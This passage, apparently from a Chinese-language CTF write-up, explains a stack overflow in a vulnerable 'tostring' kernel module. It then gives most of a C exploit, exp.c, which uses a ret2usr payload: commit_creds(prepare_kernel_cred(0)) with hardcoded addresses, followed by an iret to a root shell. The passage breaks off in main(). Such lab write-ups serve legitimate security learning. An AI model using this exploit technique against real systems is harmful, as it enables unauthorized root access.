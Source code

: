 ```shell
umount /dev
 
poweroff -f
```

在tostring模块中可以发现，tostring结构中`tostring_stack`存在溢出的可能，在`tostring_write`中并未作出限制。`tostring_stack`后面就是一个函数指针。同时该kernel并没有随机化，通过`/proc/kallsyms`获取`prepare_kernel_cred`和`commit_creds`函数的地址。

调试中可以用条件断点`b tostring_write if (int)tostring==64`比较方便。

exp.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

struct trap_frame {
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));

struct trap_frame tf;

void getshell(void)
{
    execl("/bin/sh", "sh", NULL);
}

void init_tf_work(void)
{
    asm(
        "pushl %cs;popl tf+4;"
        "pushfl;popl tf+8;"
        "pushl %esp;popl tf+12;"
        "pushl %ss;popl tf+16;"
    );
    tf.eip = &getshell;
    tf.esp -= 1024;
}

#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void *) KERNCALL = (void *)0xc10711f0;
void* (*commit_creds)(void *) KERNCALL = (void *)0xc1070e80;
void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    asm(
        "mov $tf, %esp;"
        "iret;"
    );
}

int main(void)
{
    char recv[255];
    char padding[9] = "AAAAAAAA";
    char eip[5];
```